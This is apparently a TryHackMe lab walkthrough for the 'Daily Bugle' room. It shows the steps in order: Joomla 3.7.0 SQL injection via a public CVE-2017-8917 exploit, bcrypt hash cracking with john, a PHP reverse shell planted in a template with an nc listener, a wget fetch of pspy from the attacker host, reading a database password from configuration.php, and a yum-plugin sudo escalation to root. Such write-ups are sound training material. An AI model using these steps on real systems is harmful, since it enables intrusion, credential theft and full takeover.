




---

Name: Daily Bugle
Difficulty: Hard
URL: https://tryhackme.com/room/dailybugle
Category: "TryHackMe"
Description: "A hands-on TryHackMe walkthrough for Solution, covering the approach and key findings."
---

<!--
10.113.167.7    dailybugle.thm
-->
# Solution
## Access the web server, who robbed the bank?
We start by checking which ports are open on the server
```bash
rustscan -a dailybugle.thm --ulimit 5000 -- -sC -sV
```

We see the webserver is on port 80 so we go to http://dailybugle.thm
```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   syn-ack MariaDB (unauthorized)
```

There we find the identity of the robber



```txt
spiderman
```

## What is the Joomla version?
Curling for the joomla.xml file reveals the version
```bash
curl http://dailybugle.thm/administrator/manifests/files/joomla.xml
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<extension version="3.6" type="file" method="upgrade">
        <name>files_joomla</name>
        <author>Joomla! Project</author>
        <authorEmail>admin@joomla.org</authorEmail>
        <authorUrl>www.joomla.org</authorUrl>
        <copyright>(C) 2005 - 2017 Open Source Matters. All rights reserved</copyright>
        <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
        <version>3.7.0</version>
        <creationDate>April 2017</creationDate>
        <description>FILES_JOOMLA_XML_DESCRIPTION</description>

        <scriptfile>administrator/components/com_admin/script.php</scriptfile>

        <update>
                <schemas>
                        <schemapath type="mysql">administrator/components/com_admin/sql/updates/mysql</schemapath>
                        <schemapath type="sqlsrv">administrator/components/com_admin/sql/updates/sqlazure</schemapath>
                        <schemapath type="sqlazure">administrator/components/com_admin/sql/updates/sqlazure</schemapath>
                        <schemapath type="postgresql">administrator/components/com_admin/sql/updates/postgresql</schemapath>
                </schemas>
        </update>

        <fileset>
                <files>
                        <folder>administrator</folder>
                        <folder>bin</folder>
                        <folder>cache</folder>
                        <folder>cli</folder>
                        <folder>components</folder>
                        <folder>images</folder>
                        <folder>includes</folder>
                        <folder>language</folder>
                        <folder>layouts</folder>
                        <folder>libraries</folder>
                        <folder>media</folder>
                        <folder>modules</folder>
                        <folder>plugins</folder>
                        <folder>templates</folder>
                        <folder>tmp</folder>
                        <file>htaccess.txt</file>
                        <file>web.config.txt</file>
                        <file>LICENSE.txt</file>
                        <file>README.txt</file>
                        <file>index.php</file>
                </files>
        </fileset>

        <updateservers>
                <server name="Joomla! Core" type="collection">https://update.joomla.org/core/list.xml</server>
        </updateservers>
</extension>
```
```xml
    <version>3.7.0</version>
```

## What is Jonah's cracked password?
Found an exploit for the CVE-2017-8917 which affects this joomla version https://github.com/stefanlucas/Exploit-Joomla/tree/master
```bash
python3 exploit.py http://dailybugle.thm/
                                                                                                                  
    .---.    .-'''-.        .-'''-.
    |   |   '   _    \     '   _    \                            .---.
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.
|____.'                                                                `--'  `" '---'   '---'

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Now let's crack his password using john and rockyou.txt
```bash
echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > hash.txt
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 32 OpenMP threads
Note: Passwords longer than 24 [worst case UTF-8] to 72 [ASCII] truncated (property of the hash)
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
spiderman123     (?)
1g 0:00:00:47 DONE (2026-07-15 11:19) 0.02093g/s 982.7p/s 982.7c/s 982.7C/s 060483..pink66
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now we have the credentials
```txt
jonah
spiderman123
```

## What is the user flag?
Now we can add out php reverse shell in the template. Go to Extensions → Templates → Templates

<!--TODO insert ss-->

Now we generate our reverse shell payload with https://www.revshells.com/



And replace the content of index.php



[> [!NOTE]
> Make sure to change index.php for the protostar template, that is the one in use]

Start a listener
```bash
nc -lvnp 4444
```

After we go to index.php we receive our shell
```bash
sh-4.2$ whoami
apache
```

Starting pspy in the hopes it finds something
```bash
wget http://10.113.71.23:8000/pspy64
--2026-07-15 04:36:45--  http://10.113.71.23:8000/pspy64
Connecting to 10.113.71.23:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy64'

100%[======================================>] 3,104,768   --.-K/s   in 0.02s   

2026-07-15 04:36:45 (120 MB/s) - 'pspy64' saved [3104768/3104768]
```
```bash
chmod +x pspy64
./pspy64
```

Let's take a look at configuration.php
```php
<?php
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';
    public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
```

Reading /etc/passwd we find the username is jjameson
```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
```

Now let's change users
```bash
su jjameson
nv5uz9r3ZEDzVjNu
```

Or we could connect via SSH
```bash
ssh jjameson@dailybugle.thm
The authenticity of host '10.113.167.7 (10.113.167.7)' can't be established.
ED25519 key fingerprint is SHA256:Gvd5jH4bP7HwPyB+lGcqZ+NhGxa7MKX4wXeWBvcBbBY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:99: dailybugle.thm
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.113.167.7' (ED25519) to the list of known hosts.
jjameson@10.113.167.7's password:
Permission denied, please try again.
jjameson@10.113.167.7's password:
Last failed login: Wed Jul 15 05:05:33 EDT 2026 from ip-192-168-138-209.eu-central-1.compute.internal on ssh:notty
There was 1 failed login attempt since the last successful login.
Last login: Wed Jul 15 05:03:57 2026
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt
[REDACTED]
```

## What is the root flag?
Let's see what we can run with sudo
```bash
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

We will use GTFObins to search for ways to escalate our privileges, https://gtfobins.org/gtfobins/yum/



Now we just have to adapt and paste the commands
```bash
mkdir -p /tmp/y

cat >/tmp/y/x <<'EOF'
[main]
plugins=1
pluginpath=/tmp/y
pluginconfpath=/tmp/y
EOF

cat >/tmp/y/y.conf <<'EOF'
[main]
enabled=1
EOF

cat >/tmp/y/y.py <<'EOF'
import os
from yum.plugins import TYPE_CORE

requires_api_version = '2.1'
plugin_type = (TYPE_CORE,)

def init_hook(conduit):
    os.execl("/bin/sh", "sh", "-p")
EOF

sudo yum -c /tmp/y/x --enableplugin=y help
```

Lastly, read the flag
```bash
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# cat /root/root.txt
[REDACTED]
```

